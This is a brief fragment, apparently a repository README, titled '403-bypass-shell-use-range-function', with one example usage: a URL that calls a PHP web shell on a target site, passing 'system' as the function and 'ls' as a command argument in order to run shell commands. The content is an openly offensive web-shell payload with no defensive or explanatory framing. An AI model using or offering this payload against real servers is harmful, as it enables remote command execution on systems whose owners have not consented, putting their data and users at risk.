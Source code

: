 # 403-bypass-shell-use-range-function

## Example Usage
```
http://target.com/ecchi.php?a=system&ecchi[]=ls
```
